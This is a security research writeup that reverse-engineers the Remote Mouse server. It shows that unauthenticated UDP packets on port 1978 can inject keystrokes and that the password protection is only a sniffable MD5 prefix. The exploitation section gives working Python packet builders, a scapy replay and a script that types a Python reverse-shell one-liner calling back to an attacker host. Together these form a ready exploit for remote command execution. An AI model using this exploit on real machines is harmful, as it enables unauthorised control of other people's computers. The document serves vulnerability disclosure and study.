



# Mouse Trap

So, like any good story, this one begins with me figuring out how to troll strangers in a video game. My friend and I were discussing ridiculous methods of playing Rainbow Six Siege, such as playing with our G29 Racing Wheel, when I suggested using one of those Android apps that allowed you to control your mouse and keyboard on your computer, using just your phone. I tried it out, promptly died and lost us the game, and started wondering how it actually worked.

## Discovery

I knew it used some sort of automatic host discovery, because once I installed the server on my desktop, it automatically appeared on my phone. So my first thought was some sort of broadcast advertisement of the server. I popped open Wireshark to inspect the traffic originating from my computer, and after filtering out the obnoxious amount of traffic from YouTube and Discord, I found something sending two UDP packets around 20 times per second:



Cool, so it looks like it blasts a hostname with something before it `BC 15DESKTOP-BIICVE8`. I'm not sure what the `BC 15` portion is, it isn't any sort of IP address or anything either. So it looks like the phone's application has to resolve the hostname in order to start communications with it. 

However, this makes it trivial to find our target set since the server is so kind as to broadcast the information right to us, a small python snippet that would find this for us:

```python
>>> import socket
>>> sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
>>> sock.bind(('0.0.0.0', 2007))
>>> while True:
...     host = sock.recv(20).decode('ascii', errors='ignore')[5:]
...     print(host)
```

Finally, I noticed when I clicked the name of a computer in the app, there was some sort of handshake that occured over TCP port 1978 (I wonder if that's the dev's birthday?).



Not very interesting, except it looks like it broadcasts the OS in the data, and a few bytes that say "nop", which I find a little odd. However, for hacking, this seems unimportant.

## Injecting Keystrokes

I popped open Wireshark to see traffic coming across the (proverbial) wire, and discovered UDP packets being sent to my computer from my phone. To make a more controlled test, I simply typed 'a' on my phone and saw this packet appear:


Interesting, looks like a string is sent in plaintext: `key 7[ras]84`. Well at first I checked if 84 was the hex/dec for 'a', but unfortuantely it wasn't...

```python
>>> ord('a')
97
>>> hex(ord('a'))
'0x61'
```

Then I I thought perhaps the 84, the "[ras]", or some other portion of the UDP Data field was a [nonce](https://en.wikipedia.org/wiki/Cryptographic_nonce), preventing me from replaying that same packet. To test it, I right-clicked the packet in Wireshark and selected "Copy as hex dump", then threw it into scapy to try and replicate the keystroke:

```python
>>> # The time.sleep exists so I could move my mouse back to a text editor to ensure the keystroke was registered
>>> time.sleep(5); send(IP(dst="192.168.86.195")/UDP(dport=1978)/Raw(load="key  7[ras]84"))
.
Sent 1 packets.
```

Awesome, it works! That means there is no nonce, and you can freely inject keystrokes. Knowing that 84 wasn't the hex or integer for the letter we cared for, I decided to dig into the server itself and see what was going on.

## Reversing the Server

The RemoteMouse server gets installed to `C:\Program Files (x86)\Remote Mouse` by default, and immediately there are three files of interest: `RemoteMouse.exe`, `RemoteMouseCore.exe`, and `RemoteMouseService.exe`. I'm going to go ahead and guess that `RemoteMouseService.exe` is what is responsible for things like starting up on boot, and keeping the process in the background, etc. I guessed that the majority of the logic, and hopefully the message parsing logic would reside in `RemoteMouseCore.exe`, and luckily I was right.

I threw the executable into Ghidra and saw the telltale sign that it was a .NET executable: the entrypoint redirected to `_CorExeMain`.



My go-to .NET reversing tool is, and always will be, dnSpy, so I booted it up and started poking around. I landed in a class that seemed to tokenize a string around some substrings that I saw in the original message, namely "[ras]". There is a function inside of `internal class w`, with the signature `public static void a(byte[] A_0, int A_1)`. You can see the function, and my version written in Python (for ease of following) below:


```C# 
public static void a(byte[] A_0, int A_1)
{
	string text = Encoding.ASCII.GetString(A_0);
	if (text.Contains("[ras]"))
	{
		char[] separator = "[ras]".ToCharArray();
		string[] array = text.Split(separator);
		char c = Convert.ToChar(Convert.ToInt32(array[array.Length - 1]) ^ 53);
		w.VkKeyScan(c);
		new InputSimulator().Keyboard.TextEntry(c);
		return;
	}
	if (text.Contains("[+]"))
	{
		string[] array2 = text.Split(new char[]
		{
			'[',
			'+',
			']'
		}, StringSplitOptions.RemoveEmptyEntries);
		VirtualKeyCode virtualKeyCodes = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array2[1]);
		VirtualKeyCode virtualKeyCodes2 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array2[0]);
		new InputSimulator().Keyboard.ModifiedKeyStroke(virtualKeyCodes2, virtualKeyCodes);
		return;
	}
	if (text.Contains("[noe]"))
	{
		byte[] array3 = new byte[A_1 - 5];
		array3.Initialize();
		Buffer.BlockCopy(A_0, 5, array3, 0, A_1 - 5);
		string @string = Encoding.UTF8.GetString(array3);
		new InputSimulator().Keyboard.TextEntry(@string);
		return;
	}
	if (text.Contains("[wiod]"))
	{
		char[] separator2 = "[wiod]".ToCharArray();
		string[] array4 = text.Split(separator2);
		x.c((uint)w.VkKeyScan(Convert.ToChar(Convert.ToInt32(array4[array4.Length - 1]))));
		return;
	}
	if (text.Contains("[wiou]"))
	{
		char[] separator3 = "[wiou]".ToCharArray();
		string[] array5 = text.Split(separator3);
		x.b((uint)w.VkKeyScan(Convert.ToChar(Convert.ToInt32(array5[array5.Length - 1]))));
		return;
	}
	if (text.StartsWith("[kld]", true, null) && text.Contains("[*]"))
	{
		try
		{
			text = text.Substring(5).Trim();
			string[] array6 = text.Split(new char[]
			{
				'[',
				'*',
				']'
			}, StringSplitOptions.RemoveEmptyEntries);
			VirtualKeyCode virtualKeyCodes3 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array6[0]);
			List<VirtualKeyCode> list = new List<VirtualKeyCode>();
			for (int i = 1; i < array6.Length; i++)
			{
				VirtualKeyCode virtualKeyCodes4 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array6[i]);
				list.Add(virtualKeyCodes4);
			}
			VirtualKeyCode[] modifierKeyCodes = list.ToArray();
			new InputSimulator().Keyboard.ModifiedKeyStroke(modifierKeyCodes, virtualKeyCodes3);
			return;
		}
		catch
		{
			return;
		}
	}
	if (!text.StartsWith("[klu]", true, null))
	{
		InputSimulator inputSimulator = new InputSimulator();
		VirtualKeyCode virtualKeyCodes5 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(text);
		inputSimulator.Keyboard.KeyPress(virtualKeyCodes5);
	}
}
```

```python
def _split(s: str, d: list) -> str:
    """
    Reimplementing the weird string.Split function .NET uses

    :param s: String to split
    :type s: str
    :param d: List of characters to delimit on
    :type d: list
    :return: Split string
    :rtype: str
    """
    for c in d:
        s = s.replace(c, '\n')
    return s.split()


def getVirtualKeyCodes(s: str) -> int:
    """
    This performs a look up given a string, i.e. "cmd", and returns the virtual key code, i.e. 91;

    :param s: String to look up
    :type s: str
    :return: Byte representing that keycode
    :rtype: int
    """
    # Just a lookup table of this https://docs.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes
    return 0x00


class w():

    @classmethod
    def VkKeyScan(cls, c: str) -> int:
        """
        Translates a character to the corresponding virtual-key code and shift state for the current keyboard.
        https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-vkkeyscana

        :param c: Character to convert
        :type c: str
        :return: virtual-keycode
        :rtype: int
        """
        # I think this technically re-assigns c, since in C# it looks like it doesn't return a value?
        return 0x0


    @classmethod
    def a(cls, A_0: bytearray, A_1: int) -> None:
        text = A_0.decode('ascii')

        if '[ras]' in text:
            array = _split(text, list('[ras]'))
            c = chr( int(array[-1]) ^ 53 )
            c = w.VkKeyScan(c)
            # InputSimulator().Keyboard.TextEntry(c)
            return
        
        if '[+]' in text:
            array2 = _split(text, list('[+]'))
            array2 = [c for c in array2 if c] # Equivalent to passing the StringSplitOptions.RemoveEmptyEntries
            virtualKeyCodes = getVirtualKeyCodes(array2[1])
            virtualKeyCodes2 = getVirtualKeyCodes(array2[0])
            # InputSimulator().Keyboard.ModifiedKeyStroke(virtualKeyCodes2, virtualKeyCodes)
            return

        if '[noe]' in text:
            array3 = bytearray()
            array3 = bytearray(A_0[5:A_1-5])
            string = bytearray.decode('ascii')
            # InputSimulator().Keyboard.TextEntry(string)
            return

        if '[wiod]' in text:
            array4 = _split(text, '[wiod]')
            # x.c(chr(int(array4[-1])))
            return
        
        if '[wiou]' in text:
            array5 = _split(text, '[wiou]')
            # x.b(chr(int(array5[-1])))
            return

        if '[kld]' in text and '[*]' in text:
            try:
                text = text[5:]
                array6 = _split(text, '[*]')
                virtualKeyCodes3 = getVirtualKeyCodes(array6[0])
                listVirtualKeyCodes = [getVirtualKeyCodes(c) for c in array6] # Renamed this var to avoid smashing reference to `list`
                InputSimulator().Keyboard.ModifiedKeyStroke(listVirtualKeyCodes, virtualKeyCodes3)
                return
            except:
                return
        
        if not text.startswith('[klu]'):
            virtualKeyCodes5 = getVirtualKeyCodes(text)
            # InputSimulator().Keyboard.KeyPress(VirtualKeyCodes5)
            pass
        
        return
```

Okay cool, easy 45 minutes wasted, but let's see how data flows to this function in the first place. I kept poking around in dnSpy until I found this class, `public class Form1 : Form` containing the function `private void b()`. Again, the function and a Python version written by me are below:

```C#
private void b()
{
    int num = 10;
    int num2 = 4;
    for (;;)
    {
        try
        {
            IPEndPoint ipendPoint = new IPEndPoint(IPAddress.Any, 0);
            byte[] array = this.a.Receive(ref ipendPoint);
            string @string = Encoding.UTF8.GetString(array);
            byte[] sourceArray = array;
            string text = @string;
            long ticks = DateTime.Now.Ticks;
            string text2 = text.Substring(0, 3);
            if (text2 == "mos")
            {
                int length = (int)Convert.ToInt16(text.Substring(3, 3));
                string s = text.Substring(6, length);
                y.a(Encoding.UTF8.GetBytes(s), ref num, ref num2, ref ticks);
            }
            else if (text2 == "abr")
            {
                int length2 = (int)Convert.ToInt16(text.Substring(3, 3));
                text.Substring(6, length2);
            }
            else if (text2 == "mpr")
            {
                int length3 = (int)Convert.ToInt16(text.Substring(3, 3));
                u.a(Convert.ToInt32(text.Substring(6, length3)));
            }
            else if (text2 == "web")
            {
                int length4 = (int)Convert.ToInt16(text.Substring(3, 3));
                text.Substring(6, length4);
            }
            else if (text2 == "key")
            {
                int num3 = (int)Convert.ToInt16(text.Substring(3, 3));
                byte[] array2 = new byte[num3];
                array2.Initialize();
                Array.Copy(sourceArray, 6, array2, 0, num3);
                w.a(array2, num3);
            }
        }
        catch
        {
            Thread.Sleep(100);
        }
    }
}
```

```python
import socket
import time

class Form1:
    @classmethod
    def b(cls) -> None:
        ipendPoint = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        sock.bind(('0.0.0.0', 1978))

        while True:
            try:
                array = sock.recv()
                string = array.decode('ascii')
                sourcearray = array
                text = string
                ticks = int(time.time()) / 10000000 # https://stackoverflow.com/questions/4554136
                text2 = text[:3]

                if text2 == "mos":
                    length = int(text[4])
                    s = text[5:length]
                    # y.a(s.encode('utf-8'), num, num2, ticks)
                
                elif text2 == "abr":
                    length2 = int(text[4])
                    text[5:length2]    
                
                elif text2 == "mpr":
                    length3 = int(text[4])
                    u.a(int(text[5:length3]))
                
                elif text2 == "web":
                    length5 = int(text[4])
                    text[5:length5]
                
                elif text2 == "key":
                    num3 = int(text[4])
                    array2 = bytearray()
                    array2 += sourcearray[6:num3+5]
                    # w.a(array2, num3)

            except:
                time.sleep(1) # Technically only 100 milliseconds

```

Alright cool, so if we send information to the server that starts with "key" we can route it to the previous function and inject keystrokes.

## Exploitation

So how can we exploit this? Essentially, I want a way to run arbitrary commands on a RemoteMouse server from my computer, so let's build a Python function that will construct a list of strings that will execute what we want it to execute.

To start off, let's go with the trivial single character injection; we do this by navigating to the code path with the "[ras]" substring detection. Looking at how the data is parsed when we first hit the wire (in the `Form1.b` method), the data takes the form of `key <len>[<fmt>]data`. In this case, we want the `ras` format for single character keystroke injection (don't ask me what the "ras" means), and we already know how they convert the characters using the XOR-encryption.

```python
def char2pkt(s: str) -> str:
    """
    Converts an individual character into the full single-character injection packet

    :param s: character to inject
    :type s: str
    :return: packet
    :rtype: str
    """
    i = ord(s) ^ 53
    rhs = "[ras]{}".format(i)
    return "key  {}{}".format(len(rhs), rhs)
```

Nice! Well, looking ahead, what do we actually want to type out for an example exploit? How about opening up powershell to get a reverse-shell callback. To do this, we'll need two special packets, and then just a bunch of ASCII. So let's start out with the two special characters: `WIN+R` and `ENTER`.

`ENTER` is a little odd at first. We see that the logic handling it is at the very last conditional, checking to see that "[kld]" is _not_ in the text, and if so, straight up passes the text to the `getVirtualKeyCode` function. By looking at the function in dnSpy, we can see it can expect the "rtn" string (everything is converted to lower-case). Now, since this packet won't need the special "formats" we can straight up pass the virtual key code string representation, and the number to use will be 3 since we need the `Form1.b` to take the last 3 characters out. This gives us `key 3rtn`.

```python
def special2pkt(kc: Keycodes) -> str:
    """
    Converts a special character (ENTER, Win, etc.) to a packet.
    This function does NOT validate the special character string is correct.

    :param s: keycode
    :type s: str
    :return: packet
    :rtype: str
    """
    return "key {}{}".format(len(kc.value), kc)
```

`WIN+R` is going to be a little trickier, we have to combine the keystrokes rather than send them individually. The first function has a conditional looking for "[kld]", and if it discovers it, uses the "[*]" as a token. Then it takes the first character of the text, saves that as the "base" keystroke, if you will, and all the other special keys delimited by "[\*]". Then it passes these all to a function. So for example, we could open up Task Manager with the key combinations of CTRL+SHIFT+ESC. This translates to `key 23[kld]esc [*]ctrl[*]shift`.

```python

def combo2pkt(s: str, kc: Keycodes) -> str:
    """
    Generates a packet for key combinations (i.e. CTRL+SHIFT+ESC)

    :param s: base key
    :type s: str
    :param kc: modifier keycodes
    :type kc: Keycodes
    :return: [packet
    :rtype: str
    """
    if len(s) != 1:
        s = Keycodes[s].value
    modifiers = '[*]'+'[*]'.join([k.value for k in kc])
    rhs = "[kld]{} {}".format(s, modifiers)
    return "key {}{}".format(len(rhs), rhs)
```

So now, we can combine all of this together. We'll write a special parser function just to take a string in and construct a series of packets for it, that way we cover our bases, but for now, let's make this all works by doing a manual test run.

We essentially need to execute: `[WIN+R]powershell.exe[ENTER]<cmd>[ENTER]` (where `<cmd>` is my reverse-shell command). So let's string them all together:

```python
VICTIM_IP = "192.168.86.195"
cmd = 'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((""192.168.20.133"",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(""/bin/sh"")\''

pkts = []
pkts.append(combo2pkt('r', Keycodes.WIN))
pkts += [char2pkt(c) for c in "powershell.exe"]
pkts.append(special2pkt(Keycodes.ENTER))
pkts.append(special2pkt(Keycodes.ENTER))
pkts.append(special2pkt(Keycodes.ENTER))
pkts += [char2pkt(c) for c in cmd]
pkts.append(special2pkt(Keycodes.ENTER))

import time;time.sleep(5)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
for pkt in pkts:
    time.sleep(0.1)
    print(pkt)
    sock.sendto(pkt.encode('utf-8'), (VICTIM_IP, 1978))

```

It works! Something important to note is that there seems to be a small race condition when you send too many keystrokes too close together, so I spaced them out with a small timer. I also had a hard time getting Powershell to give me a reverse-shell for some reason, but I did get the TCP callback to my netcat listener, I suspect it was just Windows being Windows.

## Passwords

It looks like in the FAQ for Remote Mouse, they explain that a password can be set to prevent others from using your computer:

> Click Remote Mouse icon on the taskbar (top right corner on Mac, bottom right corner on PC), choose Settings" -> Set password for your computer -> Apply

When you set a password, during the TCP handshake, the "nop" strings are replaced with a "pwd" strings. Interesting, looks like this is just to signify the app to enter a password. Actually getting the server and app to agree on a password took a lot of work. Every time you reset or set a password, you have to restart the server, and even then it seems like you have to do it a few more times for it to actually work. I set the password to `PAssword` and started inspecting the traffic again.

So a password handshake looks like this (these are hexdumps of the data field of the TCP packets)

Server -> App
```
0000   53 49 4e 20 31 35 77 69 6e 20 70 77 64 20 70 77   SIN 15win pwd pw
0010   64 20 33 30 30                                    d 300
```

App -> Server
```
0000   63 69 6e 30 33 36 31 64 38 62 65 38 34 30 37 33   cin0361d8be84073
0010   64 61 39 37 66 36 32 64 66 36 31 32 33 64 35 30   da97f62df6123d50
0020   64 31 32 38 36 65 20 32 34 30                     d1286e 240
```

Server -> App
```
0000   63 69 6e 20 20 37 73 75 63 63 65 73 73            cin  7success
```

Now if we try sending a keystroke from the phone we get this:
```
0000   62 36 30 63 66 38 62 61 37 65 35 64 61 62 34 62   b60cf8ba7e5dab4b
0010   33 62 36 62 65 64 37 38 62 64 65 31 65 34 37 30   3b6bed78bde1e470
0020   6b 65 79 20 20 37 5b 72 61 73 5d 38 34            key  7[ras]84
```

Wait a minute... Is that an MD5 Hash in front of the plain-text single-key packet?


Let's do some work in CyberChef real quick:

 - [Detect the Hash type](https://gchq.github.io/CyberChef/#recipe=Analyse_hash()&input=YjYwY2Y4YmE3ZTVkYWI0YjNiNmJlZDc4YmRlMWU0NzA)
 - [Hash our password (`PAssword`) with that hash](https://gchq.github.io/CyberChef/#recipe=MD5()&input=UEFzc3dvcmQ)


Okay, so their idea of encrypting the communications _isn't_ actually encrypted a packet, it's prepending the MD5 hash of the password to the beginning of the packet. Let's make sure this works using scapy:

```python
>>> time.sleep(5); send(IP(dst="192.168.86.195")/UDP(dport=1978)/Raw(load="b60cf8ba7e5dab4b3b6bed78bde1e470key  7[ras]87"))
.
Sent 1 packets.
```

Lo and behold, a single 'b' was typed into my computer. I tried changing the hash to see what would happen, but that didn't work unfortunately. So if the traffic is encrypted, all we really have to do is either bruteforce the hash, or sniff out someone else's traffic. And to determine if a server is using a password, we can simply open up a TCP connection with them and see the response:

```bash
$ telnet 192.168.86.195 1978
Trying 192.168.86.195...
Connected to 192.168.86.195.
Escape character is '^]'.
SIN 15win pwd pwd 300^CConnection closed by foreign host.
```
